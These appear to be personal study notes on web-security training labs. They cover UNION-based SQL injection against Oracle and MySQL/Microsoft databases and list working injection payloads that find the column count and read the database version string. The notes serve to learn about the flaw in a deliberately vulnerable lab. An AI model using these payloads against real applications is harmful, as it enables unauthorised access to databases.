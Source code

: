 ![](assets/Pasted%20image%2020251010032440.png)

You can use `UNION` to get the data from database to use this you can make 
and with Oracle it has the table called dual, but you can not how many numbers of columns that use in this ? To know this you can test with the NULL to get this 
`'UNION SELECT NULL FROM dual-- -`  => and it does not work 

You can use the `UNION SELECT NULL,NULL FROM dual-- -`  => and it work.

It changed from `500 internal server` error to `404 not found` now I want to see the type of the null string or number `' UNION SELECT 'aa',NULL FROM dual-- -` it works.
Because it Oracle to get the version for the oracle database you can use `' UNION SELECT banner,NULL FROM v$version-- -` 
with this you can get the version for oracle database.


---
---
## 4. Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

 **Instructions:**
This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string.

 **Solution:**

`Pets' UNION SELECT NULL FROM information_schema.tables-- -`
`Pets' UNION SELECT NULL,NULL FROM information_schema.tables-- -`
`Pets' UNION SELECT 'abc',NULL FROM information_schema.tables-- -`
`Pets' UNION SELECT 123,NULL FROM information_schema.tables-- -`
`Pets' UNION SELECT @@version,NULL FROM information_schema.tables-- -`


---
---
## 5. Lab: SQL injection attack, listing the database contents on non-Oracle databases

